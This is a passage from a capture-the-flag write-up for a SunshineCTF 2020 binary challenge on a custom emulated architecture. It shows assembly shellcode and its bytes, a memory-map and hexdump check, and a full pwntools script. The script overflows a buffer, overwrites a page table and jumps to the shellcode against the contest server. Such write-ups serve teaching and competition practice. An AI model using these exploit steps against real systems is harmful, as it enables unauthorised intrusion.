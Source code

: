```
@.top:
	RDB R2, (0xf) 
	WRB R2
	BRR @.top
```

Compiled down we get the bytes `\xf8\x2f\xf9\x02\xf5\xf9\xff, the one downside to this shellcode is that it will run forever once hit, but that does not matter too much. 

```
$ vmmap
0000-0100: R=00 W=00 X=00 fault=0000
0100-0200: R=12 W=00 X=12 fault=0000
0200-EA00: R=00 W=00 X=00 fault=0000
EA00-EB00: R=00 W=00 X=00 fault=F000
EB00-FA00: R=02 W=02 X=00 fault=0000
FA00-FB00: R=11 W=11 X=11 fault=0000
FB00-FC00: R=00 W=00 X=00 fault=FB00
FC00-FFFF: R=FC W=FC X=00 fault=0000
$ hexdump R 0xfaf2 8
faf2: ecbf ceff ece6 0000                      ........
```

Here we can see that our method works so far and was able to correctly setup the stack, virtual table, and shellcode. All that is left is to jump to the shellcode and enjoy our flag!

### Code

```python
from pwn import *
import time

context.log_level = 'error'

p = remote('chal.2020.sunshinectf.org',10004)

exploit1 = "ABCD" + 'a'*10 + '\x4c\x01\x00\x00'+'\x0e\x01\x20\x00' + '\xea\xff' + '\x00'*8 + '\x91\x01\x00\x00' + '\xf8\x2f\xf9\x02\xf5\xf9\xff' 
exploit = 'b'*64 + '\x8f\x01'

#get official bytes into the stack
for x in range(len(exploit1)-14):
    print x
    time.sleep(.1)
    p.sendline(exploit1[:len(exploit1)-x])
    p.sendlineafter('ABCD',exploit)
    time.sleep(.1)

exploit = '\xff'*64 + '\x80\x01' #start the Ropish chain
p.sendline(exploit1[:4])
p.sendlineafter('ABCD',exploit)

time.sleep(.1)
p.send('\x00') #Set Zero flag

time.sleep(.1)
p.sendline('\x11') #overwrite the page table
time.sleep(.1)


exploit ='\xff'*64 + '\xf2\xfa' # jump to shellcode
p.sendline(exploit)
p.readuntil('x/: Login success!\n')
time.sleep(1)
flag = p.readline()
```